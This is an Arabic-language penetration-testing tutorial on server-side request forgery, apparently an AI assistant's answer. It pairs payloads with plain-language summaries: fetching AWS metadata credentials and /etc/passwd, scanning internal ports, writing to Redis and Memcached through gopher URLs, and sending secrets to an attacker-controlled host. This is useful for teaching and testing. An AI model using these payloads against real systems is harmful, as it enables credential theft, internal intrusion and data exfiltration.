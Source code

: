 تمام، هشرحلك موضوع "Understanding SSRF and Its Impact" بعمق كـ Pentester، مع تركيز على الجانب العملي والأكواد والأوامر، وهحط الخلاصة بالعامية المصرية بعد كل جزء، وبعدين هعدلك كل السيناريوهات الممكنة للاستغلال.

---

### **1. مفهوم SSRF وتأثيره بعمق**
"SSRF" يعني **Server-Side Request Forgery**، وهي ثغرة بتخليك كـ Pentester تخلي السيرفر يعمل طلبات (Requests) نيابة عنك لأماكن إنت تختارها، سواء داخل الشبكة بتاعته أو براها. الخطر فيها إنك بتقدر توصل لأماكن المفروض تكون محمية أو مخفية، زي سيرفرات داخلية أو بيانات حساسة.

- **ازاي بتحصل؟** لما التطبيق بياخد إنبوت من المستخدم (زي URL أو IP) ويستخدمه عشان يبعت Request من غير ما يفحصه أو يحط قيود صارمة.
- **تأثيرها:** ممكن تسرق بيانات، تتحكم في خدمات داخلية، أو حتى تعمل هجمات أكبر على الشبكة.

**مثال بسيط:**
لو موقع بيسمحلك تدخل لينك عشان يجيب صورة:
```
http://target.com/fetch?url=http://example.com/pic.jpg
```
وإنت حطيت:
```
http://target.com/fetch?url=http://localhost/admin
```
السيرفر هيجيب الصفحة الداخلية ويوريهالك، وده المفروض ما يحصلش.

**خلاصة بالعامية:**  
يعني كأنك بتقول للسيرفر "روح جيبلي الحاجة دي"، وهو يروح يفتحلك خزنة الأسرار بتاعته من غير ما يسأل ليه.

---

### **2. الجانب العملي: فهم SSRF وتأثيرها**
هنشرح ازاي الثغرة دي بتشتغل وايه اللي ممكن تعمله عمليًا:

#### **أ. الوصول لخدمات داخلية**
السيرفر لما بيعمل Request من ناحيته، بيقدر يوصل لأماكن المستخدم العادي ما يقدرش يشوفها.

- **مثال عملي:**
  لو في حقل URL، جرب:
  ```
  http://target.com/fetch?url=http://127.0.0.1:8080
  ```
  لو رجعلك صفحة أدمن أو خدمة داخلية، يبقى في SSRF.

- **تأثير عملي:**
  ممكن توصل لخدمات زي:
  ```
  http://127.0.0.1:3306 (MySQL)
  http://127.0.0.1:6379 (Redis)
  ```

**خلاصة بالعامية:**  
كأنك بتخلي السيرفر يفتحلك أبواب جواه ما كنتش هتعرف توصلها لوحدك.

#### **ب. سرقة بيانات حساسة**
SSRF بتديك وصول لـ Metadata أو ملفات داخلية تحتوي على معلومات مهمة.

- **مثال عملي:**
  لو السيرفر على AWS، جرب:
  ```
  http://target.com/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE-NAME
  ```
  لو رجعلك مفاتيح AWS، تقدر تستخدمها عشان تتحكم في الحساب.

- **تأثير عملي:**
  ممكن تسرق:
  - مفاتيح API.
  - بيانات الدخول من ملفات الكونفيج.

- **أمر عملي كـ Pentester:**
  جرب ملفات داخلية:
  ```
  http://target.com/fetch?url=file:///etc/passwd
  ```

**خلاصة بالعامية:**  
زي ما تخلي السيرفر يروح يجيبلك كنز مخفي ويديك إياه على طبق من ذهب.

#### **ج. التأثير على الشبكة الداخلية**
SSRF ممكن تستخدمها عشان تسكان الشبكة أو تهاجم أجهزة تانية.

- **مثال عملي:**
  جرب تسكان بورتات:
  ```
  http://target.com/fetch?url=http://192.168.1.1:22
  http://target.com/fetch?url=http://192.168.1.2:445
  ```
  لو السيرفر رد بأي شكل (حتى لو Error)، تقدر تعرف ايه اللي شغال.

- **تأثير عملي:**
  ممكن تهاجم خدمات داخلية زي Redis بكتابة أوامر:
  ```
  http://target.com/fetch?url=gopher://127.0.0.1:6379/_SET%20key%20value
  ```

**خلاصة بالعامية:**  
كأنك بتخلي السيرفر يلف جوا البيت ويقولك مين موجود وايه اللي مفتوح.

#### **د. Blind SSRF وتأثيره**
لو السيرفر مش بيرجعلك الرد (Blind SSRF)، لسه بتقدر تستغله.

- **مثال عملي:**
  استخدم Burp Collaborator:
  ```
  http://target.com/fetch?url=http://your-subdomain.burpcollaborator.net
  ```
  لو شفت طلب DNS أو HTTP في Collaborator، يبقى الثغرة موجودة.

- **تأثير عملي:**
  ممكن تخلي السيرفر يبعت بيانات ليك:
  ```
  http://target.com/fetch?url=http://your-ip:8000/?data=SECRET
  ```

**خلاصة بالعامية:**  
حتى لو السيرفر مش بيقولك حاجة، بتقدر تخليه يرن عليك ويسيبلك رسالة.

#### **هـ. التأثير الكبير (DoS أو RCE)**
في حالات نادرة، SSRF ممكن تؤدي لتدمير أو تنفيذ أوامر.

- **مثال عملي:**
  لو السيرفر بيستخدم خدمة زي Memcached، جرب:
  ```
  http://target.com/fetch?url=gopher://127.0.0.1:11211/_stats
  ```
  ممكن تسبب تحميل زايد أو تستغل ثغرة في الخدمة.

**خلاصة بالعامية:**  
لو لعبتها صح، ممكن تخلي السيرفر ينهار أو يفتحلك الباب كله.

---

### **3. سيناريوهات الاستغلال الممكنة كـ Pentester**
دلوقتي هعدلك كل الطرق اللي ممكن تستغل بيها SSRF وتأثيرها:

1. **Internal Service Discovery:**
   - سكان بورتات داخلية (22, 445, 3306) وكشف الخدمات.

2. **Sensitive Data Theft:**
   - سرقة Metadata من السحابة (`169.254.169.254`).
   - جلب ملفات زي `/etc/passwd` أو `config.php`.

3. **Network Pivoting:**
   - الوصول لأجهزة تانية في الشبكة (192.168.x.x).

4. **Blind SSRF Exploitation:**
   - تأكيد الثغرة بـ DNS/HTTP Requests لسيرفرك.

5. **Service Abuse:**
   - كتابة بيانات في Redis أو Memcached.
   - تشغيل أوامر لو في ثغرة متصلة.

6. **Denial of Service (DoS):**
   - تحميل السيرفر بطلبات كبيرة (زي `/dev/random`).

7. **Remote Code Execution (RCE):**
   - لو الخدمة الداخلية فيها ثغرة، استغلها عبر SSRF.

---

### **نصيحة كـ Pentester:**
- ابدأ دايمًا بـ `localhost` و`127.0.0.1` وشوف الرد.
- جرب بروتوكولات مختلفة (http, file, gopher) عشان تشوف ايه مسموح.
- لو Blind SSRF، استخدم أدوات زي **Burp Collaborator** أو سيرفرك الخاص.
- ركز على السيرفرات في السحابة لأن الـ Metadata بتكون هدف ذهبي.

لو عايز تفاصيل أكتر عن أي سيناريو أو أداة، قوللي!